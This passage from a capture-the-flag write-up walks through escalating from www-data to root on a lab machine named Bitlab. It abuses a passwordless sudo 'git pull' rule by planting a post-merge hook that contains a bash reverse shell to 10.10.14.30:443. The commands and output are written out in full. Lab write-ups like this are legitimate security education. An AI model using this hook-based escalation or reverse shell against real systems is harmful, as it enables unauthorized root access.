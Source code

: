 ## Beyond Root

### Unintended Path from www-data to root

With a shell as www-data, I ran `sudo -l`, and saw I could run `git pull` without password:

```

www-data@bitlab:/$ sudo -l
Matching Defaults entries for www-data on bitlab:
    env_reset, exempt_group=sudo, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bitlab:
    (root) NOPASSWD: /usr/bin/git pull

```

This makes sense, as I saw the deploy project needed to run this automatically when new code is committed.

In `git`, a `pull` is actually a `git fetch` followed by a `git merge`. I can make my own hook, a `post-merge` hook, and put a shell in there. The challenge I have is that both projects are owned by root and not writable by me:

```

www-data@bitlab:/var/www/html$ find -type d -name hooks -ls
  2502298      4 drwxr-xr-x   2 root     root         4096 Jan  4  2019 ./profile/.git/hooks
  2760044      4 drwxr-xr-x   2 root     root         4096 Jan  4  2019 ./deployer/.git/hooks

```

I could create a new project, but to do a `git pull`, I’ll need to connect it to a remote project. I could stand up my own git server on my kali box.

A much easier way to do this is to just copy one of the projects. I’ll copy it into a working directory in `/dev/shm`:

```

www-data@bitlab:/dev/shm/.0xdf$ cp -r /var/www/html/profile .

```

Now I can write a hook as the folder owner:

```

www-data@bitlab:/dev/shm/.0xdf$ ls -ld profile/.git/hooks/
drwxr-xr-x 2 www-data www-data 260 Sep  8 13:37 profile/.git/hooks/

```

I’ll write a reverse shell as a `post-merge` hook, and set it executable:

```

www-data@bitlab:/dev/shm/.0xdf/profile$ cat .git/hooks/post-merge
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.30/443 0>&1
www-data@bitlab:/dev/shm/.0xdf/profile$ chmod +x .git/hooks/post-merge

```
